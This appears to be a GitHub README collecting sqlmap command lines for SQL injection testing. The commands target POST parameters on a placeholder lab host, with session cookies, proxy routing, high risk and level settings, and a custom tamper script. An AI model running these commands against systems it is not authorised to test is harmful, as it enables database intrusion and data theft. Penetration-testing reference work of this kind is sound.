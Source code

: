 # SQLMapExamples
A list of sample SQL Map Injection Commands.  SQLMap is a powerful tool for identifying SQL injection vulnerabilities.  However, everytime I use it, I struggle with the parameters.  The following is a list of SQLMap one-liners that I have used in the past and keep here so I can copy and paste and modify the parameters are required.

Reference:
https://github.com/sqlmapproject/sqlmap/wiki/Usage



## SQLMap Injection on POST parameter with a PHP Session ID
Here we have simple sql injection test agianst a single POST parameter
```bash
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --delay=0 --timeout=30 --retries=0 --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation 
Here is the same injection attack as above but using the astrix to inject at a predetermined postion for a MySQL database running on a Linux platform:
```bash
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```


## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation 
Here is a SQL injection attack which has been configured to run through a Proxy (BurpSuite)

```bash
sqlmap -u "http://10.10.10.10/rofile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap test only 1 parameter "name" and risk 3 level 5 through a proxy connection 
Here is a sql injection on a name parameter for a login form at a set position on the name field. Also there is a custom written tamper (that is included in this repository) that will replace <here> with 3 random characters, so that a unique user is created with each SQLMap injection test.  
You can  install this tamper simply by coping the file to your /usr/share/sqlmap/tamper folder (on Kali at least)
  
```bash
sqlmap -u "http://10.10.10.10:80/index.php" --data="name=12345678901*&email=test<here>@test.com&password=test12345" --method="POST" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 -p "name" --dbms="MySQL" --os=Linux --level=5 --risk=3 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N" --tamper=chargen.py
```
## Create a custom SQLMap tamper file
I ran into a scenario today where I wanted to test a SQL create new user page for a SQL injection.  
Tampers can be easily edited and replaced here:
```
cd/usr/share/sqlmap/tamper
```
```
sudo cp lowercase.py increment.py
```


